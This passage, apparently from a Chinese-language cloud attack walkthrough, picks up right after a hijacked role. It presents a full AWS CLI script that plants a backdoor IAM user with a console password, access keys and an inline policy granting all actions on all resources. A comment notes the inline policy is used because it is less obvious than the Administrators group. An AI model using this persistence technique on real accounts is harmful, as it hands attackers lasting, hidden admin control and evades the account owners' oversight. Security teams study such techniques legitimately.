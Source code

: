 ![](img/e438daf3f7bb40a9bc179a52d05d7439.png)

如您所见，我们成功劫持了角色访问。现在让我们创建一个具有 web 访问权限的后门用户！

```
userName="notabackdoor"
password='ThisisnotabackdoorFORSURE12345!!'
policyName="userPolicy"
#Create a user
aws iam create-user --user-name "$userName"
#Create a login profile to allow web access
aws iam create-login-profile --user-name "$userName" --password "$password" 
#Create cli access
aws iam create-access-key --user-name "$userName"
#Create inline policy to allow full access (it's less obvious than attaching to the Administrators group)

cat > "$policyName".json << EOF
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
EOF

aws iam put-user-policy --user-name "$userName" --policy-name "$policyName" --policy-document file://"$policyName".json
```
